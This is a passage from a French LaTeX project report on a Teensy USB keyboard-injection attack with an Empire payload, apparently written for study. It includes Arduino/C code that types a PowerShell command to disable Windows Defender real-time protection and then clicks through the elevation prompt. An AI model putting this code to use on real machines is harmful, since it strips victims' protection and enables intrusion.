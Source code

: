 Il est maintenant possible d'interagir avec la machine de la victime !

\includegraphics[scale=0.48]{images/SEN_Projet_Image09.png}

\subsubsection{Bypass Winodws Defender}

Dans l'exemple précédent, si l'ordinateur était équipé de Windows Defender, le payload était bloqué, nous allons donc
devoir désactiver Windows Defender avec le Teensy.

Pour ce faire il faut éditer le script Arduino produit par “Empire” et ajoutez ces quelques lignes:

\begin{lstlisting}{language=c}
void sendKey(uint8_t keyin){
  clearKeys();
  Keyboard.set_key1(keyin);
  Keyboard.send_now();
  clearKeys();
  delay(200);
}
\end{lstlisting}

La fonction "sendKey()" vient de ce site: \url{https://www.securitysift.com/fun-with-teensy/}, j'ai eu quelques problèmes avec les différences de délai entre
ma VM Windows et ma machine local, j'ai donc décider d'utiliser cette fonction afin de régler ces problèmes.

Elle permet simplement d'envoyer des frappes clavier, mais elle réinitialise à chaque fois l'état des touches de contrôle (CAPS LOCK par exemple).

\begin{lstlisting}{language=c}
Keyboard.print("powershell -Command \"Start-Process PowerShell -ArgumentList '-Command Set-MpPreference -DisableRealtimeMonitoring $true' -Verb RunAs\"");
sendKey(KEY_ENTER);
sendKey(KEY_LEFT);
sendKey(KEY_LEFT);
sendKey(KEY_ENTER);
\end{lstlisting}

